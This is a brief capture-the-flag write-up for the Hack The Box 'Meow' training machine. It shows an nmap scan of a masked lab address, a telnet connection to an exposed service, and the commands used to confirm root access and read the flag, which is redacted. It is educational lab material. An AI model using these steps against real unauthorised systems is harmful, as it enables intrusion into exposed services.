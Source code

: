 ## 🐱 HTB Starting Point: Meow  
**Level**: Easy  
**Date**: June 30, 2025  
**Goal**: Gain access to a machine running an exposed Telnet service and retrieve the user flag.

---

### 🧰 Tools  
- `nmap`  
- `telnet`  
- Basic Linux commands (`whoami`, `hostname`, `cat`)  

---

### 🧭 Steps  

1. 🔎 **Scan the machine** using `nmap` to discover open ports and services:
   ```bash
   nmap -sC -sV -Pn -n -T4 10.129.X.X
   ```


### Output
    PORT   STATE SERVICE VERSION
    23/tcp open  telnet  Linux telnetd

### ✅ Confirm access and environment:
    whoami
    # root

    hostname
    # meow

### 📁 List files and retrieve the flag:
    ls
    # flag.txt

    cat flag.txt
    # HTB{REDACTED}


### 💣 Payloads Used
    telnet 10.129.X.X
    whoami
    hostname
    cat flag.txt
